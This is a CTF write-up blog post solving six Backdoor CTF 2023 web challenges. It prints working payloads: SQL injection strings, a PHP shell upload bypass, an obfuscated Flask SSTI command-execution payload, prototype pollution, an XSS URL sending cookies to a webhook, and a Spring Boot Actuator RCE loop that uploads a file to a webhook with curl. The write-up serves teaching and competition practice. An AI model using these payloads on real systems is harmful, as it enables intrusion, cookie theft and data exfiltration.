 ```yaml
---
layout: post
title: Backdoor CTF 2023 Web Challenges
author: m0z
categories: [Jeopardy]
tags: [ctf,web]
---
```


## web/too-many-admins
Downloading the source, we can see this is a PHP challenge. Just a single PHP file and the flag is located in the database (dump.sql).

I immediately noticed the SQL injection here:

```php
$query = "SELECT username, password, bio FROM users where username = '$userParam' ";
```
Trying a simple blind SQLi payload `1'or'1'='1` on the `user` GET parameter reveals the entire database (limited to `id`, `user` and `password`).
I immediately noticed many of the hashes were [Magic Hashes](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc).

This is a hash which begins with `0e` followed by a string of numerical values. PHP has a difficult time with these hashes because it evaluates them to be loosely equal to zero due to PHP treating `e` as a symbol for an exponent.
So I wrote up a script to try `240610708` as the password for each admin user (there are 500).

While this script was running, I realized that the SQL injection vulnerability would actually allow us to dump the flag if we use a UNION query. Since the flag is stored in the `bio` column, we can simply use `1' UNION SELECT null, bio, null FROM users-- -` to dump the flag.

In the end, both techniques worked. Judging from the flag, the intended solution was actually the magic hash approach.

`flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}`

## web/php-sucks
Opening the source for this challenge we notice the flag is a file on the server this time. With only a file upload, it is pretty clear that we will require an arbitrary file upload vulnerability to read the flag.

All the PHP code was in a single line so the first thing I did was paste this into a PHP beautifier. This made it easier to see what was happening in the code.

The implementation looked pretty secure. However, there was one line in particular that I didn't like:
```php
$fileName=strtok($fileName,chr(7841151584512418084));
```
This modified the filename; splitting it by a token and taking the first instance of the resulting array. What's strange is that `chr(7841151584512418084)` doesn't correspond to a normal character. I decided to run this PHP code and see what symbol it corresponded to and was pleasantly surprised that it was `$`.

So, we can upload a file named `shell.php$.jpg` and we will pass the initial file extension checks, ensure that the mimetype check is also satisfied. Then, it will be later renamed to `shell.php` by the aforementioned call to `strtok()`.

So uploading an image containing PHP code somewhere inside it (which is still a valid image) will work. After uploading, I found the flag and ran the command to view it `cat ../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`.

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`

## web/Unintelligible-Chatbot
This was the first sourceless challenge on the CTF. I pretty quickly tested for most obvious injection types include XSS and SSTI. Our SSTI payload seemed to work (`{{7*7}}` => `49`).

From initial checks, it seems to be blocking any SSTI payloads with `[]` or `.` which means we will have a difficult time accessing dictionary values. If you're used to SSTI challenges then you'll know flask has a bunch of useful approaches to handle this including the `|attr()` method.

I'd love to elaborate more on this solution but this is one of the first things I tried and it worked. 
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
`flag{n07_4n07h3r_5571_ch4ll3n63}`

## web/space-war
I felt like this was among the more "guessier" of challenges. The description mentioned letters being split up amongst various routes. So I decided to fuzz for all printable characters and found a response at `/K`. I then wrote the following script to recover the other characters:

```python
import requests
import string

o = ""

while True:
    for s in string.printable:
        r = requests.get(f"http://34.132.132.69:8005/{o}{s}")
        if "wrong path" not in r.text:
            o += s
            print(o)
            break

```

Eventually after getting `Kur0s4k1` we see the following message:

`Ohhhh myy Goddd!! you finally did it!! you are worthy, my name Kur0s4k1`

I then logged in with username `Kur0s4k1` and password `1"or"1"="1` which worked.

`flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}`

## web/armoured-notes
This was probably my favourite challenge on the CTF. We open the source code and see the flag is stored as a cookie on the admin bot. This means we will likely require XSS to solve this challenge.

However, we cannot create notes on this application as we are not an administrator. I pretty quickly noticed the dodgy usage of `Object.assign()` in the `duplicate()` method:

```javascript
export  function  duplicate(body) {
	let  obj={}
	let  keys  =  Object.keys(body);
	keys.forEach((key) => {
		if(key  !==  "isAdmin")
		obj[key]=body[key];
	})
	return  obj;
}
```

After seeing the hardcoded check for `isAdmin`, I realized that if we could add this as a field to our note when creating it (and set it to true), we could successfully overwrite the default value. This can be done using a prototype pollution.

```json
POST /create

{
	"uname":"John",
	"pass":"Doe",
	"__proto__": {
		"isAdmin": true
	},
	"message":"Your note..."
}
```

This successfully bypassed the check and created our note. I got stuck at this point for a while until I eventually ran `npm audit` and discovered there was a public XSS exploit available for ViteJS.
All the information needed to exploit this can be found [here](https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title).

Final payload which I sent to the admin bot:
```
http://34.132.132.69:8001/posts/6580526999d634eec4c73707/?"></script><script>window.location.href=`https://webhook.site/77b428d2-33c2-437f-8425-9ef657cdacea/${btoa(document.cookie)}`</script>
```

`flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}`

## web/Rocket Explorer
Credit to Protag (@0daystolive) for immediately noticing that this was vulnerable to an exposed Spring Boot Actuator ([exploit here](https://github.com/spaceraccoon/spring-boot-actuator-h2-rce)). The main challenge here was due to the server consistently crashing.

I had tried to get a reverse shell for a long time but this was not working. I was able to get a pingback but had no idea where the flag was located on the server and wasn't getting a successful backconnect from the shell payload.

I ended up having to guess various flag locations and spam requests to get the flag. I wrote this bash script to guess `/flag` which successfully worked.

```bash
while true
do
        curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'curl -T /flag <webhook>\');\"}' 'http://34.173.50.60:8080/actuator/env'
        curl -X 'POST' -H 'Content-Type: application/json' 'http://34.173.50.60:8080/actuator/restart'
done
```

`flag{sp4c3_r4cc00ns_rc3}`
